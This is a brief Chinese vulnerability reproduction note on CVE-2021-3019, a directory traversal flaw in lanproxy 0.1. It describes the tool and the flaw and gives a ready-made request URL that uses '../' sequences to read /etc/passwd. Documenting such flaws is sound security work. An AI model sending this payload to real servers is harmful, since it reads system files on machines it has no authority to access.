 ```yaml
---
title: CVE-2021-3019
date: 2021-11-25 01:43:23
author: sec
---
```

# lanproxy 文件读取
# lanproxy简介
lanproxy是一个将局域网个人电脑、服务器代理到公网的内网穿透工具，支持tcp流量转发，可支持任何tcp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面...）
# 漏洞影响版本
lanproxy 0.1
# 漏洞概述
通过../../可以穿越目录进行目录遍历
# 漏洞复现
http://{{BaseUrl}}/../../../../../etc/passwd
![在这里插入图片描述](img/a437784d4de24b9f9265a87ea4f36bef.png)

